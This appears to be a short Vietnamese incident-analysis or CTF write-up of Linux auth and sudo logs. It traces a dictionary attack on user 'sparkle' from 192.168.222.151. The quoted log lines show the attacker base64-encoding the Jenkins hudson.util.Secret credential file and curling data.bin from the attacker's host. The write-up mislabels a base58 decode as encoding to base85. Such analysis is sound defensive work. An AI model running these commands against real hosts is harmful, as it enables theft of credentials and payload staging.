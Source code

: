 - ![image](image/4.PNG)
- Thấy rằng có rất nhiều thông báo sai mật khẩu, rất có thể đây là cuộc tấn công từ điển và thực thi mã từ xa (RCE - Remote Code Execution) từ ip `192.168.222.151` vào user `sparkle`
- ![iamge](image/5.PNG)
- Sau khi xác thực thành công mật khẩu, attacker đã bắt đầu thực thi các lệnh shell 
```
May 17 13:19:01 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/base64 /var/lib/jenkins/secrets/hudson.util.Secret

```
- Shell này mã hoá file hudson.util.Secret thành base64
```
May 17 13:22:09 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/curl http://192.168.222.151:2212/data.bin --output data.bin

```
- Lệnh này tải file data.bin bằng lệnh curl
```
May 17 13:23:02 kali sudo:  sparkle : TTY=pts/2 ; PWD=/home/sparkle ; USER=root ; COMMAND=/usr/bin/base58 -d data.bin

```
- Tiếp theo nó mã hoá file vừa tải về dạng base85
